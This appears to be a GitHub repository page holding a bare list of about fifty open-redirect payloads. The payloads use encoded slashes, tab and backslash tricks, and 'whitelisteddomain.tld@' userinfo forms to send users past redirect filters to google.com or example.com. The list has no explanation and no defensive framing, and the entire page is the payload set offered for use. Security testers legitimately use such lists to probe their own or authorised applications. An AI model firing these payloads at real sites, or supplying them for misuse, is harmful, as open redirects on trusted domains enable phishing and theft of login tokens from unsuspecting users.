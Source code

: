 # openredirectpayloads


Open Redirect Payload List :
/%09/example.com

/%2f%2fexample.com

/%2f%2f%2fbing.com%2f%3fwww.omise.co

/%2f%5c%2f%67%6f%6f%67%6c%65%2e%63%6f%6d/

/%5cexample.com

/%68%74%74%70%3a%2f%2f%67%6f%6f%67%6c%65%2e%63%6f%6d

/.example.com

//%09/example.com

//%5cexample.com

///%09/example.com

///%5cexample.com
////%09/example.com
////%5cexample.com
/////example.com
/////example.com/
////\;@example.com
////example.com/
////example.com/%2e%2e
////example.com/%2e%2e%2f
////example.com/%2f%2e%2e
////example.com/%2f..
////example.com//
///\;@example.com
///example.com
///example.com/
//google.com/%2f..
//www.whitelisteddomain.tld@google.com/%2f..
///google.com/%2f..
///www.whitelisteddomain.tld@google.com/%2f..
////google.com/%2f..
////www.whitelisteddomain.tld@google.com/%2f..
https://google.com/%2f..
https://www.whitelisteddomain.tld@google.com/%2f..
/https://google.com/%2f..
/https://www.whitelisteddomain.tld@google.com/%2f..
//www.google.com/%2f%2e%2e
//www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
///www.google.com/%2f%2e%2e
///www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
////www.google.com/%2f%2e%2e
////www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
https://www.google.com/%2f%2e%2e
https://www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
/https://www.google.com/%2f%2e%2e
/https://www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
//google.com/
//www.whitelisteddomain.tld@google.com/
///google.com/
///www.whitelisteddomain.tld@google.com/
////google.com/
////www.whitelisteddomain.tld@google.com/
https://google.com/
https://www.whitelisteddomain.tld@google.com/
